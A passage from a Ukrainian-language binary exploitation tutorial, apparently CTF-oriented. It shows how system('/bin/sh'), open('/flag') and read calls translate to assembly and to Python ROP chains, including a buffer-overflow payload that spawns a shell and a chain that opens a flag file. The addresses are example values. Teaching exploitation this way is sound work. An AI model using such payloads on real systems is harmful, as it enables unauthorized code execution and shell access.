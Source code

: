 ### Детальні приклади:

**Приклад 1: system("/bin/sh")**
```c
system("/bin/sh");
```

**В асемблері:**
```asm
lea    rdi, [rel binsh_string]   ; RDI = адреса "/bin/sh"
call   system                     ; Виклик system()
```

**Наш ROP еквівалент:**
```python
pop_rdi_ret = 0x00401234  # Адреса gadget "pop rdi; ret"
binsh = 0x7ffff7b98e1a    # Адреса "/bin/sh"
system = 0x7ffff7a50d70   # Адреса system()

payload = b'A'*72 + p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

**Приклад 2: open("/flag", O_RDONLY)**
```c
int fd = open("/flag", O_RDONLY);  // O_RDONLY = 0
```

**В асемблері:**
```asm
lea    rdi, [rel flag_string]     ; RDI = "/flag"
xor    rsi, rsi                    ; RSI = 0 (O_RDONLY)
call   open
```

**ROP еквівалент:**
```python
pop_rdi_ret = ...
pop_rsi_ret = ...
flag_str = ...
open_addr = ...

rop_chain = (
    p64(pop_rdi_ret) +
    p64(flag_str) +          # RDI = "/flag"
    p64(pop_rsi_ret) +
    p64(0) +                 # RSI = 0
    p64(open_addr)
)
```

**Приклад 3: read(3, buf, 100)**
```c
read(3, buf, 100);
```

**В асемблері:**
```asm
mov    rdi, 3                      ; RDI = 3 (file descriptor)
lea    rsi, [rbp-0x100]            ; RSI = адреса buf
mov    rdx, 100                    ; RDX = 100 (розмір)
call   read
```
